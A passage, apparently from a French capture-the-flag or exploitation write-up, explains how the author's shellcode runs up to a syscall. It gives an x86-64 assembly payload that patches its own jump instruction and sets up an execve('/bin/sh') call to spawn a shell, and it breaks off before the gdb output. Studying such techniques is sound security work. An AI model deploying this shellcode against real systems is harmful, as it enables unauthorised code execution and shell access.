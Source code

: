 On exécute bien notre shellcode et uniquement notre shellcode, jusqu'au `syscall`.
Il ne nous reste plus qu'à écrire à la suite un shellcode classique qui exécute
`execve("/bin/sh", ["/bin/sh", NULL], NULL)` à l'aide de l'instruction
`syscall` placée à la fin.
```asm
bits 64

%define SIZE 0x33

lea rdi, [rsp+0x45] ; rdi = debut shellcode

; reconstruire le jnz loop
mov BYTE [rdi+0x19], 0x75
mov BYTE [rdi+0x1a], 0xf6

add rdi, SIZE ; taille shellcode

loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    ;jnz loop
    nop
    nop

; execve /bin/sh
mov rax, "/bin/sh"
push rax
mov rdi, rsp

push rbx
push rdi
mov rsi, rsp

mov rax, 59
```

Résultat dans gdb :
